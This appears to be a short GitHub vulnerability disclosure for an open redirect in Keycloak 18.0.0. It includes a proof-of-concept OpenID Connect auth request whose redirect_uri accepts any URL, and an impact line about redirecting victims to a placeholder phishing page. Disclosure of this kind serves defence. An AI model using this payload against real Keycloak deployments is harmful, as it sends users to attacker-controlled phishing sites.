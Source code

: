 # OpenRedirect-Keycloak18.0.0
An open redirection vulnerability (open redirect) happens when attackers are able to control where a website or application redirects users. Here in this case, we can mention any URL as value of redirect_uri and it successfully redirects to it.

POC. /auth/realms/master/protocol/openid-connect/auth?client_id=<id>&redirect_uri=<ANY_REDIRECT_URL>&state=72526a4b-d5b6-4424-90db-cc0f7c2001a7&response_mode=fragment&response_type=code&scope=openid&nonce=33e890be-c19f-463f-bd0e-7fdcd065c0fb HTTP/2


**Impact.** By exploiting the open redirect vulnerability on the keycloak using the URL parameter value 'redirect_uri', the attacker is redirecting the victim to http://attacker.com/phish
